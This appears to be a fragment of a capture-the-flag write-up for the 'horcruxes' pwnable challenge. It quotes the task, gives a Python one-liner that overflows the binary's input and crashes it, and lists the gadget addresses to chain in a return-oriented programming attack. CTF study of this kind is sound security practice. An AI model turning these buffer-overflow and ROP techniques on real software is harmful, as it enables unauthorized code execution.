 connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn privilege.
rop it to read the flag.

```
$ python -c 'print "1\n" + "A"*120 + "\xff\xff\xff\xff"' | ./horcruxes
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:How many EXP did you earned? : You'd better get more experience to kill Voldemort
Segmentation fault
```

```
A @ 0x809fe4b
B @ 0x809fe6a
C @ 0x809fe89
D @ 0x809fea8
E @ 0x809fec7
F @ 0x809fee6
G @ 0x809ff05

sum = A+B+C+D+E+F+G
```

`sum` is the exp to be given in the end
